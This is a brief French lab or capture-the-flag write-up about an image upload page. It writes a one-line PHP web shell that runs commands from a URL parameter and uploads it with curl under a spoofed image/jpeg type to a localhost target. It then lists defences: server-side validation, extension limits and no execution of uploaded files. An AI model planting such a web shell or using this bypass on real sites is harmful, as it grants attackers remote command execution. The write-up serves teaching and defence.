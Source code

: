 home/ add image

C'est une page pour upload un fichier mais cela n'accepte que les images.

1. On cree un fichier php pour executer des commandes 
echo '<?php system($_GET["cmd"]); ?>' > shell.php

2. On upload le fichier 

curl -s -H "Content-Type: multipart/form-data" \
  -F Upload=Upload \
  -F "uploaded=@shell.php;type=image/jpeg" \
  "http://localhost:8080/index.php?page=upload"

Ensuite il va cat automatiquement le contenu de la page


Comment éviter ? 

On doit valider dans le back les fichiers uploadés.
On peut aussi limiter les extensions.
On peut aussi interdire l'exécution des fichiers uploadés.

